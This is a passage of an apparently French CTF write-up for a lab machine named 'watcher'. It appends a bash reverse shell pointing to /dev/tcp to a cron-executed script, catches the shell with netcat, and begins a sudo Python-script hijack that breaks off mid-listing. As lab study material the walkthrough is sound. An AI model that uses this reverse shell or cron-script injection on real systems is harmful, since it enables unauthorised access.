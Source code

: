# Flag 5
On va ajouter un revshell dans le script **cow.sh** pour récupèrer le compte de mat.
```
toby@watcher:~/jobs$ echo "/bin/bash -i >& /dev/tcp/{IP}/1234 0>&1" >> cow.sh
toby@watcher:~/jobs$ 
toby@watcher:~/jobs$ cat cow.sh 
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
/bin/bash -i >& /dev/tcp/{IP}/1234 0>&1
toby@watcher:~/jobs$ 
```
Plus qu'a attendre que la tâche cron execute le script et voila !
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1234                              
listening on [any] 1234 ...
connect to [{IP}] from (UNKNOWN) [10.10.114.38] 59342
bash: cannot set terminal process group (2495): Inappropriate ioctl for device
bash: no job control in this shell
mat@watcher:~$ 
```
```flag_5.txt
mat@watcher:~$ cat flag_5.txt
FLAG{live_**_***_***_***_**_***_cow}
```
# Flag 6
On trouve une note dans le **/home** de **mat**
```
mat@watcher:~$ cat note.txt 
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```
On sait donc qu'il peux executer un script:
```
mat@watcher:~$ sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```
Il y a 2 scripts:
```cmd.py
mat@watcher:~/scripts$ cat cmd.py
cat cmd.py
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```
```will_script.py
mat@watcher:~/scripts$ cat will_script.py
import os
import sys
from cmd import get_command
```